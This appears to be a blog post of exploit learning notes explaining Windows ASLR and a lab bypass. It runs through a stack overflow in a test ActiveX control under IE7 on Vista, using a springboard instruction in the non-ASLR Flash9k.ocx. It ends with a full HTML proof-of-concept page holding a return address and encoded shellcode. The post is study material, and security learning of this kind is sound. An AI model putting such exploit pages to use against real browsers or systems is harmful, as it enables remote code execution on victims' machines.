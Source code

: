```yaml
---
title: Exploit learning notes 017 ASLR Introduction
description: introduction to ASLR technology and simple attack ideas
date: 2020-11-24 21:12:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-017-aslr-introduction/)

## Introduction to ASLR techniques

> Throughout, all of the previously described vulnerability exploitation methods share a common feature: they all require the identification of a clear jump address. Whether it is a generic springboard instruction such as JMP ESP or the various instructions used by Ret2Libc, we need to determine the entry point of this instruction first. As the saying goes, Microsoft's ASLR (Address Space Layout Randomization) technology is a protection mechanism that interferes with shellcode positioning by no longer using a fixed base address to load the program
>
> In fact, the concept of ASLR has been introduced in the Windows XP era, but the ASLR function on XP is very limited, only a simple randomization of PEB and TEB, but no randomization of the module load base address, until Windows Vista appeared, ASLR really began to work!
>
> Similar to SafeSEH, ASLR implementation requires both program support and OS support, where program support is not required.

- Microsoft has added the `/dynamicbase` linking option since Visual Studio 2005 SP1 to help us with this task. We just need to enable the `/ddynmicbase` linking option when we compile the program, and the compiled program will support ASLR

### Image randomization

- Image randomization is the process of randomizing the virtual address of the PE file loaded when it is mapped to memory, this address is determined at system startup and will change after system reboot
- Probably for compatibility reasons, Microsoft has set a switch for image randomization in the system, which users can set by setting the registry key `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\ MoveImages` key to set the working mode of image randomization
  - When set to `0`, image randomization is disabled
  - When set to `-1`, randomizable images are forced to be processed with or without the `IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE` flag set
  - Normal mode of operation when set to other values, only images with the randomized processing flag are processed
  - If `MoveImages` does not exist in the registry, you can manually create a value with the name `MoveImages` and the type `DWORD` and set its value as needed

### Stack randomization

- This measure is to randomly select the base address of the stack when the program is running. The difference with image base randomization is that the base address of the stack is not determined when the system is started, but when the program is opened, which means that the base address of the stack is different for any two runs of the same program, and thus the location of each variable in memory is not determined.
- Compile the following program in VS2008, run it twice on XP and Vista, and get the following result

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](https://s3.ax1x.com/2020/11/24/DtT6JK.png)
![Windows XP](https://s3.ax1x.com/2020/11/24/DtTyi6.png)

- As you can see, the heap addresses are far apart on Vista, while they are identical on XP

### Randomization of PEB and TEB

- Getting the TEB and PEB of the current process is simple, the TEB is stored at `FS:0` and `FS:[0x18]` and the PEB is stored at the TEB offset `0x30`, you can get the TEB and PEB of the current process by the following code

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- Test run on Vista, the results are as shown

![PEB/TEB-random-Vista](https://s3.ax1x.com/2020/11/24/DtL3Ct.png)

- As you can see, the result is very poor, the PEB address is only randomized by one byte, and it is still very regular, the TEB is basically unchanged

### Defects of ASLR

- It is not difficult to see that when ASLR randomizes the image, although the module load base address has changed, but the entry point of each module's lower two bytes will not change, for example: the original base address: `0x00401234`, after randomization the base address becomes: `0x67291234`, so you can use this to attack it

## Attack the module without ASLR enabled

### Preparation

> Experimental environment: Windows Vista SP0, IE7, Adobe Flash Player 9.0.124

- Although the book requires the use of version 9.0.262, but I really can not find it, so I will use 9.0.124 instead, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- The vulnerable OCX control has already been compiled in the previous experiment, so use that one, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx), this control ctrl class object id: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Steps

- Reboot the system to see the ASLR module enabled

![ASLR not enabled status](https://s3.ax1x.com/2020/11/26/D0Nlod.png)

- Experimental control is not enabled GS
- Load POC page and Flash9k.ocx via IE7
- There is a stack overflow vulnerability in the function test, which aims to overwrite the return address of the function
- Because Flash9k.ocx is not ASLR enabled, the load base address is fixed, so you can search for a suitable springboard instruction inside to jump to shellcode
- IE7's DEP is turned off, so the impact of DEP is not considered
- Since the attack is achieved by overwriting the return address of the function, the best springboard instruction is JMP ESP
- `0x301D606B` is also `JMP ESP`, which will jump to the head of the string after execution, but the problem is that the four bytes of `6B 60 1D 30` constitute exactly one line of assembly instruction `imul esp,dword ptr ds:[eax+0x1D],0x30`, which will multiply the last two operands and subsequently put them into the first operand So it needs to keep the value of `[eax+0x1D]` correct, and currently eax is not pointing to a valid address, so it needs to fix eax
- Unfortunately, there is no suitable instruction for fixing eax, so change the address
- `0x303911D3` is also `JMP ESP`, but the assembly code it consists of will read both EC and EAX, so both registers need to be repaired, not feasible, change instruction
- `JMP ESP` is not available, use `JMP ESI` instead, address `0x3000DCD2` contains 0, directly excluded, address `0x302420C3` the last byte is retn, can not be used, excluded, address `0x3028EE6E` assembly code will directly cause an exception, excluded, this instruction is also no longer suitable, so look for other suitable instruction
- The `CALL ESP` at address `0x300942F2` seems to be suitable, it will also increase the esp by 8 bytes to avoid the garbage data.
- Here is the shellcode after the change

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- As shown in the picture, reboot the system, the shellcode runs normally, which means the attack on ASLR is successful

![shellcode run successfully](https://s3.ax1x.com/2020/11/26/D0oYUH.png)
